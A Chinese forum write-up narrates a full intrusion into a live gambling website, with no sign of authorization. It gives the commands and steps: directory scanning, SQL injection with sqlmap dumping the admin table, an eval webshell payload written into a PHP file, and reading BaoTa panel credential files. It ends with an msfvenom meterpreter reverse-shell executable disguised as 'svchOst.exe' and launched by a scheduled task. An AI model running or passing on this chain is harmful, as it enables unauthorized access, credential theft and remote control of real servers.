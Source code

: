 一次BC站点的GetShell过程
=================

0x0 前言
------

 [bc实战代码审计拿下后台、数据库](https://forum.butian.net/share/334)续这篇文章作者并没有成功GetShell，依稀记得以前遇到一个类似的站点，故打算再续前缘，最终成功拿下目标Shell权限。

0x1 获取源码
--------

首先先常规扫一波目录:

```bash
dirsearch -u 'http://x.x.x.x:80/' -e php
```

并没有发现有源码压缩包，故放弃这个思路，重新审视文章，获取关键字，去github进行搜索，成功找到部分源码，然后开始进行审计。

![image-20220131164522170](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e111d5bb0004407f4860aba0ba8ab8f06313758a.png)

Github:

![image-20220131165336273](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-d01cdd3502b6c60b72e62b0a35d7476ccefea449.png)

0x2 进入后台
--------

通过之前的扫描，可以获取到后台登陆地址。

![image-20220131171554751](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-edd5dde8763e689250d77f7c882686ae0ee40e32.png)

访问可以看到登陆页面。

![image-20220131171633143](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-48686ca01bf0c0ecbead6709a450b4d617c4790a.png)

没有验证么，果断上一波常规的弱口令FUZZ，无果。 那么只能通过源码进行突破了, 首先观察网站的后台鉴权逻辑主要是通过包含`common/login_check.php`进行判断。

![image-20220131175602885](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-0fc69126d1532c4ceaaef6c682f09ae5f06df2c7.png)

```php
<?php
@session_start(); //后台登陆验证

if(!isset($_SESSION["adminid"])){
    unset($_SESSION["adminid"]);
    unset($_SESSION["login_pwd"]);
    unset($_SESSION["quanxian"]);
    echo "<script>alert('login!!pass');</script>";
    exit;
}else{
    include_once("../../include/mysqlio.php");
```

那么最直接的思路，就是找到一个没有包含这个文件的地方。

```bash
find ./ -name "*.php" |xargs grep -L "login_check.php"
```

找到文件`Get_Odds_1.php`, 发现其中的`$type`参数直接拼接进SQL语句中，存在注入。

![image-20220131185004448](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-9423e4c6e9aa3076dab3ec3a9a68ca919b54b096.png)

正常情况:

![image-20220131185434138](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-1a22a9896d1160e5dc5ea729258f3ab4732508ac.png)

输入单引号,出错:

![image-20220131185647231](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-55d371a87932818b69bbbd7e6d84f6f1b53c2788.png)

SQLMAP 跑出账号密码,，这里虽然是GET类型的SQL注入，但是直接使用sqlmap的`-u`参数是不行的，需要使用Burp抓包，保存数据包然后用`-r`参数。

```bash
 sqlmap -r sql.txt -D dsncly -T sys_admin --dump
```

![image-20220131201813374](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-6e9b85bd45a5c905ad83dc903b2e0fa9659e3ab6.png)

0x3 GetShell
------------

进入后台，先尝试黑盒，看看有没有上传功能，不过似乎没有找到可用的上传点。

![image-20220131205127329](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e4a8892a94b47168bff8e1f661269a03f4da2549.png)

黑盒没找到很明显的办法了，只能进行快速代码审计了，直接全局搜索危险函数`eval,file_put_contens、fwrite、fputs`等。

![image-20220131210715856](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-51e1453380f659d90e6e6d0bea716c13088732dc.png)

可以看到这里写入的文件是php文件，且内容可以通过`ta_msg`参数进行控制，也没有过滤，只有简单的去除两边的空格，这里务必要自己本地进行构造下，避免出现闭合失败的错误。

构造payload:`');eval($_POST[a]);var_dump(md5(1));//;`

最终写入到文件`gp_db.php`

![image-20220131212605228](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-044809fb8a1d5a41a22162d10f2a1666418e5862.png)

成功GetShell

![image-20220131212731259](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-42a040359c0af165e7802685fcc26d728897f61c.png)

0x4 宝塔提权
--------

通过phpinfo，可以看到disable\_function，同时通过nmap扫描端口，可知目标存在宝塔。

不过幸运的是，shell的权限还是蛮高的，可以浏览到宝塔的目录。

![image-20220131213137442](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e126b9b0a629a2dd565efa48e0a1b8285a8224cd.png)

获取宝塔密码:

```bash
D:/BtSoft1/panel/data/default.pl
```

开放端口:

```bash
D:/BtSoft1/panel/data/port.pl
```

后台地址:

```bash
D:/BtSoft1/panel/data/admin_path.pl
```

获取账号：

```bash
D:/BtSoft1/panel/data/default.db
```

通过上面步骤获取到的账号和密码，登陆到后台`http://xxxx:8888/Tajl2eP0/`

![image-20220131213615395](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-089b51c2f463f36877f766262aaa8a5bab1186ca.png)

登陆进去之后会弹出强制绑定窗口，可以通过直接访问`/site`来绕过这个。

下面有两种思路进行提权:

1\) 通过软件管理-&gt;已安装，删除禁用函数，来实现命令执行。

![image-20220131213826163](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-9b7eb68366f78f0e919dbf2ee91a5554bb87cb13.png)

![image-20220131213846786](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-bbaac81f5b54d4650280f8c29004a13ee60a7a9f.png)

2\) 通过宝塔自带的计划任务。

MSF生成木马

```bash
msfvenom -p windows/meterpreter/reverse_tcp  -e x86/shikata_ga_nai -i 5  LHOST=x.x.x.x LPORT=10001 EXTENSIONS=stdapi,priv  -f exe > svchOst.exe
```

放到C盘即可，然后添加shell计划任务

![image-20220131215006218](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-c7110977d0cda377fafe43f49cdd3efc7707a592.png)

`ipconfig /all` 查看网络状态

![image-20220131215543485](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-b400b3ed7bf5382413dd4544d1f2b43420614d03.png)

简单查看下`arp -a`和扫描下内网网段的存活情况，并没有连通，故没有继续后续的内网渗透测试。

0x5 总结
------

 本文的渗透过程比较常规，涵盖了从0到1的完整单目标渗透过程，核心在于快速的代码审计能力，由于这个系统开发比较凌乱，所以故不能采用框架的方式去阅读，故采用危险函数定位是一种有效的方法，最后通过利用宝塔的信息，成功获取到最高的权限，完成渗透测试的目标。